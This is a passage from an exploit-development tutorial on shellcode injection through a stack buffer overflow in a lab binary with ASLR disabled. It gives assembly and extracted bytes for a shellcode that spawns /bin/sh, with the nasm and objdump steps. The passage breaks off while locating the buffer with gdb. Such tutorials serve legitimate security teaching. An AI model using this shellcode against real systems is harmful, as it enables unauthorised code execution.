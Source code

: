 ```

![](Resource/ec291bdf93b8619ddcd8a6e2b72b3364_1.png)

It can be observed that ```buf``` lies at ```ebp - 0x6c```. 0x6c is 108 in decimal. Hence, 108 bytes are allocated for buf in the stack, the next 4 bytes would be the saved ```ebp``` pointer of the previous stack frame, and the next 4 bytes will be the return address.

Shellcode injection consists of the following main parts:

1. The shellcode that is to be injected is **crafted**.

1. A **possible place** is found where we can insert the shellcode.

1. The program is exploited to **transfer execution flow** to the location where the shellcode was inserted.

We’ll deal with each of the steps briefly:

## Crafting Shellcode

Crafting shellcode is in itself a big topic to cover here. I shall take it in brief. We will create a shellcode that spawns a shell. First create ```shellcode.nasm``` with the following code:
```
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```

[Here](Resource/ec291bdf93b8619ddcd8a6e2b72b3364_shellcode.asm) is the link to the above mentioned code.

To compile it use ```nasm```:
```
nasm -f elf shellcode.asm
```

Use objdump to get the shellcode bytes:
```
objdump -d -M intel shellcode.o
```
![](Resource/ec291bdf93b8619ddcd8a6e2b72b3364_2.png)

Extracting the bytes gives us the shellcode:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Finding a possible place to inject shellcode

In this example ```buf``` seems to be the perfect place. We can insert the shellcode by passing it inside the first parameter while running ```vuln```. But how do we know what address ```buf``` will be loaded in stack? That’s where gdb will help us. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of ```buf``` will not change.

```